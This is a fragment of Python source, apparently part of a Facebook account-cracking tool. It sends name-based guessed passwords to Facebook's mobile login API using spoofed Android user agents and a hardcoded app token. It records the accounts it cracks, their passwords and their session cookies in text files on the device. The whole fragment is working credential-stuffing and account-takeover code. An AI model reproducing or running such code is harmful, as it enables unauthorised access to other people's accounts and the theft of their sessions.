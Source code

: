     'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'accept-language': 'en-PK,en-US;q=0.9,en-GB;q=0.8,en;q=0.7',
    'cache-control': 'max-age=0',
    'referer': 'https://mbasic.facebook.com/',
    'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
    'sec-ch-ua-mobile': '?1',
    'sec-ch-ua-platform': '"Android"',
    'sec-fetch-dest': 'document',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-site': 'same-origin',
    'sec-fetch-user': '?1',
    'upgrade-insecure-requests': '1',
    'user-agent': random.choice(['Mozilla/5.0 (Linux; Android 11; TECNO KG7h Build/RP1A.200720.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.116 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/408.1.0.36.103;]', 'Mozilla/5.0 (Linux; Android 10; Alcatel_5002C Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.116 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/408.1.0.36.103;]', 'Mozilla/5.0 (Linux; Android 8.1.0; vivo X20Plus Build/OPM1.171019.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/110.0.5481.153 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/405.0.0.23.72;]', 'Mozilla/5.0 (Linux; Android 12; Infinix X6825 Build/SP1A.210812.016; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.116 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/408.1.0.36.103;]', 'Mozilla/5.0 (Linux; Android 12; SM-G973F Build/SP1A.210812.016; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.116 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/408.1.0.36.103;]', 'Mozilla/5.0 (Linux; Android 11; GM1901 Build/RKQ1.201022.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/103.0.5060.129 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/379.0.0.2.109;]'])}
            pword = pword.replace("first", first).replace("last", last)
            pword = pword.lower()
            data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":acc,"password":pword,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_US","client_country_code": "US","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler","api_key": "882a8490361da98702bf97a021ddc14d"}
            response = r.post('https://b-graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=False)
      #      print(response.text)
            if 'session_key' in response.text:
                okacc.append(acc)
                print('\r\033[1;92m[\033[1;92mRA-OK\033[1;92m] \033[1;92m'+acc+' \033[1;92m•\033[1;92m '+pword+'  ')
                open('/sdcard/RA-OK.txt','a').write(f'{acc} • {pword}\n')
                if c=='y':
                    try:
                           q = json.loads(response.text)
                           ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                           ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-")
                           cookies = f"sb={ssbb};{ckkk}"
                    except Exception as e:print(str(e)+' | '+response.text)
                print('\r\033[1;92m[\033[1;92mCookie\033[1;92m] \033[1;97m'+cookies) 
                open('/sdcard/M.COOKIES-OK.txt','a').write(f'{acc} • {pword}\n{cookies}')
                break
            elif 'www.facebook.com' in response.text:
                if cpok=='n':
                     pass
                else:
                     print('\r\033[1;92m[\033[1;92mRA-OK\033[1;92m] \033[1;92m'+acc+' \033[1;92m•\033[1;92m '+pword+'   ')
                cpacc.append(acc)
                open('/sdcard/RA-OK.txt','a').write(f'{acc} • {pword}\n')